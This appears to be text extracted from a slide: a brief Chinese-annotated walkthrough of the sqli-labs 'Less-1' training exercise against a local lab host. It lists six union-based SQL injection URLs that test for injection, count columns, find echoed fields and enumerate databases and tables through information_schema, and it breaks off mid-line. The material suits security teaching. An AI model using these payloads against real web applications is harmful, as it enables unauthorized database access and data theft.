

# Less-1_01
1. http://127.0.0.1/sqli/Less-1/?id=1’     查看是否有注入
2.   http://127.0.0.1/sqli/Less-1/?id=1‘ order by 3--+   查看有多少列
3.  http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,3--+ 查看哪些数据可以回显
4. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,database()--+  查看当前数据库
5. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,schema_name from information_schema.schemata limit 4,1--+  查看数据库security，或者是：   http://127.0.0.1/sqli/Less-1/?id=-1’ union select 1,2,group_concat(schema_name) from information_schema.schemata--+ 查看所有的数据库
6. http://127.0.0.1/sqli/Less-1/?id=-1‘ union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1--+ 查表，或者是：http://127.0.0.1/sqli/Less-1/?id=-1’ union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479--+ 查看所有的